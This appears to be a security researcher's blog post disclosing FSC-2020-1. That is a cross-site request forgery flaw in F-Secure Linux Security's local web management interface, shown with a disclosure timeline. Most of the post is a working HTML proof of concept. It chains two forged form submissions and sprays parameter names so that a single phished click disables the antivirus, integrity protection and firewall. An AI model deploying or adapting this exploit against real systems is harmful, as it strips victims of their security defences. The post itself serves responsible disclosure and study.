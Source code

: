 ```yaml
---
layout: post
title:  "FSC-2020-1"
date:   2020-08-07 17:13:37 +0100
categories: bug
---
```


<style>
code {
  white-space : pre-wrap !important;
}
</style>


# Single-click double CSRF to disable Linux Security (from F-Secure)


### Timeline
* 21 April 2020 - Bug reported to F-Secure <br/>
* 14 May 2020 - F-Secure releases a *hotfix* to address the bug <br/>
* 19 May 2020 - F-Secure releases a Security Advisory for the bug ([FSC-2020-1](https://www.f-secure.com/en/business/support-and-downloads/security-advisories/fsc-2020-1))

### The bug

The security solution "Linux Security" is manageable, after installation, browsing a local instance of Tomcat available at `http://localhost:28080`

Unfortunately, the web application was missing proper anti-CSRF tokens to prevent CSRF attacks from arbitrary websites. Although the solution was somehow trying to avoid CSRF attacks by changing the name of some of the variables/parameters (in the form of incremental numbers) after every interaction with the web interface, that wasn't enough.

I was able to create the following PoC which sprays the variables' name space and chains 2 CSRF to: **Disable the anti-virus, system integrity protection and the firewall** with a single "phished" click:

```html
<html>
<head>
<script>
function chainForm(){
  setTimeout(new function(){document.getElementById('submit1').click() }, 2000)
}
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.withCredentials = true;
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.body.innerHTML += this.responseText;
    }
  };
  xhttp.open("GET","http://localhost:28080/fsecure/webui", true);
  xhttp.send();
}
</script>
</head>
<body onload="loadDoc(); ">
  <script>history.pushState('', '', '/')</script>
    <iframe style="display:none" name="myframe"></iframe>
    <iframe style="display:none" name="myframe2"></iframe>
    <form id="form1" style="display:none" target="myframe" action="http://localhost:28080/fsecure/webui" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="v29" value="&#45;1" />
      <input type="hidden" name="v28" value="&#45;1" />
      <input type="hidden" name="v31" value="0" />
      <input type="hidden" name="v30" value="0" />
      <input type="hidden" name="wa&#95;clientprobe" value="1" />
      <input type="hidden" name="wa&#95;jsversion" value="JavaScript&#32;1&#46;5" />
      <input type="hidden" name="wa&#95;screenwidth" value="1920" />
      <input type="hidden" name="wa&#95;screenheight" value="1440" />
      <input type="hidden" name="wa&#95;javaenabled" value="false" />
      <input type="hidden" name="v27" value="1" />
      <input type="hidden" name="declare&#58;v7" value="" />
      <input type="hidden" name="v7" value="2" />
      <input type="hidden" name="declare&#58;v10" value="" />
      <input type="hidden" name="v10" value="8" />
      <input type="hidden" name="declare&#58;v13" value="" />
      <input type="hidden" name="v13" value="2" />
      <input type="hidden" name="v15" value="null" />
      <input type="hidden" name="v16" value="true" />
      <input type="hidden" name="v22" value="null" />
      <input type="hidden" name="v23" value="true" />
      <input type="hidden" name="declare&#58;v5" value="" />
      <input type="hidden" name="v1" value="false" />
      <input type="hidden" name="v2" value="false" />
      <input type="hidden" name="v3" value="false" />
      <input type="hidden" name="v4" value="false" />
      <input type="hidden" name="v24" value="" />
      <!--<input type="hidden" name="d101806e199&#95;ACTIVE&#95;ITEM" value="" />-->
      <input type="hidden" name="v32" value="" />
      <input id="submit1" type="submit" value="Submit request"  onclick="document.getElementById('form1').style.display = 'none';"/>

      <!-- Spray the variables' name space with 2 (Disable for AV and Integrity) -->
      <input type="hidden" name=v29 value="2" />
<input type="hidden" name=v32 value="2" />
<input type="hidden" name=v35 value="2" />
<input type="hidden" name=v30 value="2" />
<input type="hidden" name=v33 value="2" />
<input type="hidden" name=v36 value="2" />
<input type="hidden" name=v31 value="2" />
[...] Here the form just continues until "v1000" is set to "2"

    </form>

    <form id="form2" target="myframe2" action="http://localhost:28080/fsecure/webui" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="v29" value="&#45;1" />
      <input type="hidden" name="v28" value="&#45;1" />
      <input type="hidden" name="v31" value="0" />
      <input type="hidden" name="v30" value="0" />
      <input type="hidden" name="wa&#95;clientprobe" value="1" />
      <input type="hidden" name="wa&#95;jsversion" value="JavaScript&#32;1&#46;5" />
      <input type="hidden" name="wa&#95;screenwidth" value="1920" />
      <input type="hidden" name="wa&#95;screenheight" value="1440" />
      <input type="hidden" name="wa&#95;javaenabled" value="false" />
      <input type="hidden" name="v27" value="1" />
      <input type="hidden" name="declare&#58;v7" value="" />
      <input type="hidden" name="v7" value="2" />
      <input type="hidden" name="declare&#58;v10" value="" />
      <input type="hidden" name="v10" value="8" />
      <input type="hidden" name="declare&#58;v13" value="" />
      <input type="hidden" name="v13" value="2" />
      <input type="hidden" name="v15" value="null" />
      <input type="hidden" name="v16" value="true" />
      <input type="hidden" name="v22" value="null" />
      <input type="hidden" name="v23" value="true" />
      <input type="hidden" name="declare&#58;v5" value="" />
      <input type="hidden" name="v1" value="false" />
      <input type="hidden" name="v2" value="false" />
      <input type="hidden" name="v3" value="false" />
      <input type="hidden" name="v4" value="false" />
      <input type="hidden" name="v24" value="" />
      <!--<input type="hidden" name="d101806e199&#95;ACTIVE&#95;ITEM" value="" />-->
      <input type="hidden" name="v32" value="" />
      <input id="submit2" type="submit" value="Submit Request"  onclick="document.getElementById('form2').style.display = 'none';chainForm();"/>

      <!-- Spray the variables' name space with 8 (Disable Firewall) -->
      <input type="hidden" name=v29 value="8" />
<input type="hidden" name=v32 value="8" />
<input type="hidden" name=v35 value="8" />
<input type="hidden" name=v30 value="8" />
<input type="hidden" name=v33 value="8" />
<input type="hidden" name=v36 value="8" />
<input type="hidden" name=v31 value="8" />
[...] Here, as above, the form just continues until "v1000" is set to "8"

</form>
</body>
</html>

```
